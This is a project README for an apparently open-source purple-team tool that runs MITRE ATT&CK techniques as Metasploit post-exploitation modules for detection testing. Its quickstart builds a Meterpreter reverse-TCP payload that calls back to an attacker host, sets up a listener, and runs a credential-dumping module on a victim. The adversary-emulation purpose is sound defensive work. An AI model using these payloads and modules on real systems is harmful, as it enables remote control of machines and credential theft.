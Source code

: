# Purple Team ATT&CK&trade; Automation

At Praetorian, we were seeking a way to automatically emulate adversary tactics in order to evaluate detection and response capabilities. Our solution implements MITRE ATT&CK&trade; TTPs as Metasploit Framework `post` modules. As of this release, we've automated a little over 100 TTPs as modules.

Metasploit's advantage is its robust library, capability to interact with operating system APIs, and its flexible license. In addition, we're able to emulate the features of other tools such as in-memory .NET execution via leveraging Metasploit's `execute_powershell` functionality. This allows Blue Teams to ensure that their tools are alerting on the actual TTP behavior and not execution artifacts (such as encoded PowerShell).

Our solution is built on top of the latest version of Metasploit as of 09Apr2019 (pulled from: https://github.com/rapid7/metasploit-framework). We’ve made minor modifications to Metasploit’s code base to enable some of the automation. Everything should work as intended if you’re already familiar with Metasploit. The magic happens after you establish a Meterpreter session and run a TTP as a post-exploitation module.

We're open sourcing our work because we believe in solving the cybersecurity problem. By giving Blue Teams more tools to emulate adversary behavior, we hope to improve their capabilities and reduce the still very high average dwell time.

## Wiki

For detailed opertional [usage guidance](https://github.com/praetorian-inc/purple-team-attack-automation/wiki/Operational-Setup-and-Usage) and a full [list of modules](https://github.com/praetorian-inc/purple-team-attack-automation/wiki/Available-Modules) and changes, please view the [GitHub Wiki](https://github.com/praetorian-inc/purple-team-attack-automation/wiki).

## Quickstart

[![Quickstart video guide](https://img.youtube.com/vi/o3Qb_0clIpg/0.jpg)](https://www.youtube.com/watch?v=o3Qb_0clIpg)

Installation should follow the instructions for installing a Metasploit Docker environment:
https://github.com/rapid7/metasploit-framework/tree/master/docker

In general:
 * Install Docker
 * `git clone https://github.com/praetorian-code/purple-team-attack-automation.git`
 * Edit `./docker-compose.local.override.yml` to reflect the LHOST of your local system similar to below. By default, port 4444 will be forwarded to the docker container. If you want to use other ports, for instance to mirror HTTPS, you'll have to add them to this file.

```
version: '3'
services:
  ms:
    environment:
      # example of setting LHOST
      LHOST: 10.0.8.2
    # example of adding more ports
    ports:
      - 8080:8080
      - 443:443
```

 * Add / Remove further ports or IP addresses as you see fit. Don't forget to change the LHOST to your own IP address.
 * Make sure you set `LHOST` to valid hostname that resolves to your host machine.
 * Now you need to set the `COMPOSE_FILE` environment variable to load your local override.
 ```
 echo "COMPOSE_FILE=./docker-compose.yml:./docker-compose.override.yml:./docker-compose.local.override.yml" >> .env
```
 * `docker-compose build`
 * Start the container with `./docker/bin/msfconsole`
 *	Generate a Meterpreter payload:
 ```
 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Attacker IP Address> LPORT=4444 -f exe > meterpreter.exe
 ```
 *	Start and run a local listener: 
 ```
  use exploit/multi/handler
  set PAYLOAD windows/meterpreter/reverse_tcp
  set LHOST <Attacker IP Address>
  set LPORT 4444
  exploit -j -z
  ```
  Copy and run meterpreter.exe on the target (“victim”) host as admin and wait for a session.
*	Run a TTP as a post-exploitation module. The list of modules is provided below. For example, to start the 'Credential Dumping (T1003)’ module, run:  
```
use modules/post/windows/purple/t1003
info
set session 1
run
```

### Meterpreter Payloads

Praetorian recommends you utilize [the nightly installers](https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers) in order to run msfvenom to create your payloads.

### Common Errors

```
ERROR: Couldn't connect to Docker daemon at http+docker://localunixsocket - is it running?
```

Solved by
```
service docker start
```

## Future Work

* Integrate the container into a fork of [DetectionLab](https://github.com/clong/DetectionLab)
* Compare execution of CALDERA and MSF and how artifacts differ so we can improve adversary emulation
* Leverage the [MSFRPCD](https://metasploit.help.rapid7.com/docs/running-metasploit-remotely) to facilitate automatic attack chaining

## Contact

If you're interested in our Purple Team services, please [contact us](https://www.praetorian.com/contact) online or read more about "[Why Praetorian Benchmarks to MITRE ATT&CK™ and Why You Should Too](https://p16.praetorian.com/blog/why-praetorian-benchmarks-to-mitre-attack?utm_campaign=blog&utm_medium=social&utm_source=github)".

If you're an engineer looking to join our great team, we have openings at [our careers page](https://www.praetorian.com/company/careers).

## Contributing

See the [Contribution Guide](https://github.com/praetorian-inc/purple-team-attack-automation/blob/master/CONTRIBUTING.md) for a step-by-step guide to making a module.

Also, follow the [Metasploit Framework's general contributing guidelines](https://github.com/rapid7/metasploit-framework/blob/master/CONTRIBUTING.md).

## Acknowledgements

We'd like to thank various members of the security community for providing a lot of the techniques and code that we integrated into this project. 

* [MITRE ATT&CK&trade;](https://attack.mitre.org/) (Obviously)
* [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)
* [@subtee](https://twitter.com/subTee)
* [LOLBAS Project](https://lolbas-project.github.io/)
* [CALDERA](https://github.com/mitre/caldera)

At Praetorian, the following engineers helped contribute modules:
* Josh Abraham `jabra [at] spl0it.org` and [@jabra](https://twitter.com/Jabra)
* Abraham Adberstein
* Tanner Harper
* Thomas Hendrickson [github.com/tomis007](https://www.github.com/tomis007)
* George Jouldjian 
* Dallas Kaman
* Blake Luther
* Matt Schneider
* Matthew Verrette
* Daniel Wyleczuk-Stern [@daniel_infosec](https://twitter.com/Daniel_Infosec)
